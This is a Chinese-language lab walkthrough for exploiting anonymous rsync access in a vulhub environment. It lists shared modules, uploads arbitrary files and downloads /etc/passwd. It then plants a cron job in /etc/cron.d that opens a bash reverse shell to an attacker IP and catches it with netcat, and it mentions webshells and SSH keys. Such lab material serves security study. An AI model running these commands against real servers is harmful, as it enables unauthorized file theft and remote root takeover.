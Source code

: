 # 0x00 Rsync简介
Rsync是Linux下一款数据备份工具，它在同步文件的同时，可以保持原来文件的权限、时间、软硬链接等附加信息。同时支持通过rsync协议、ssh协议进行远程文件传输。常被用于在内网进行源代码的分发及同步更新，因此使用人群多为开发人员。

rsync协议默认监听873端口，而一般开发人员安全意识薄弱的情况下，如果目标开启了rsync服务，并且没有配置ACL或访问密码，而rsync默认是root权限，我们将可以读写目标服务器文件。

rsync默认配置文件为`/etc/rsyncd.conf`

常驻模式启动命令`rsync --no-detach --daemon --config /etc/rsyncd.conf`

启动成功后默认监听于TCP端口`873`，可通过`rsync-daemon`及`ssh`两种方式进行认证。

# 0x01 环境搭建
https://github.com/vulhub/vulhub/tree/master/rsync/common

靶机：192.168.50.227

攻击机：192.168.50.53

# 0x02 利用条件
rsync默认允许匿名访问，其配置文件 `/etc/rsyncd.conf` 中未包含授权账号行(auth users)，则为匿名访问。

# 0x03 利用方式
## 3.1 访问rsync服务器
```
rsync rsync://192.168.50.227:873/
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117427-bd3f4f94-c599-4420-bec3-775b12baaae0.png" /></div>


## 3.2 查看模块列表
```
rsync rsync://192.168.50.227:873/src
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117520-64f525d8-898c-4d28-a6dc-7c9eb3be59fa.png" /></div>


## 3.3 任意文件上传
```
rsync 1.txt rsync://192.168.50.227:873/src/home/
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117635-cac68364-3bb5-4273-9db0-bc4907be5b2b.png" /></div>


## 3.4 任意文件下载
```
rsync rsync://192.168.50.227:873/src/etc/passwd /tmp
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117683-7e3fa3d8-eb6c-47d4-bc56-89ecd6d8150f.png" /></div>

## 3.5 通过写cron任务反弹shell
在cron.d增加定时任务
当我们要增加全局性的计划任务时，一种方式是直接修改`/etc/crontab`。但是，一般不建议这样做，`/etc/cron.d/`目录就是为了解决这种问题而创建的。

cron 执行时，要读取三个地方的配置文件：一是`/etc/crontab`，二是`/etc/cron.d`目录下的所有文件，三是每个用户的配置文件。

所以cron进程执行时，就会自动扫描`/etc/cron.d/`目录下的所有文件，按照文件中的时间设定执行后面的命令。

1、在本地编辑一个`crontab`文件
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*  *    * * *   root    bash -c "bash -i >& /dev/tcp/192.168.50.53/5555 0>&1"
#
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117742-a1b71c74-a13d-4308-a9ad-d94f289f613c.png" /></div>

2、上传crontab文件到靶机的`/etc/cron.d/`目录下
```
rsync -av /tmp/crontab rsync://192.168.50.227:873/src/etc/cron.d/
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117820-2873a1f2-1b7f-401a-9e0e-64668641160d.png" /></div>


3、kali监听5555端口，等待计划任务执行后反弹shell成功
```
nc -lvvp 5555
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175117863-0678c5a3-aacc-4f78-916e-e354b0be9d9f.png" /></div>


🚩 此外如果目标有Web服务的话，可以直接写WebShell，或者可以通过写ssh公钥实现获取权限。

# 0x04 参考链接
- https://github.com/vulhub/vulhub/tree/master/rsync/common
- [rsync未授权访问漏洞利用复现](https://baijiahao.baidu.com/s?id=1672329601503704665&wfr=spider&for=pc)
- [Linux /etc/cron.d作用](https://blog.csdn.net/weixin_42308335/article/details/116924900)
- [rsync的几则tips（渗透技巧）](https://blog.csdn.net/kclax/article/details/93207941)


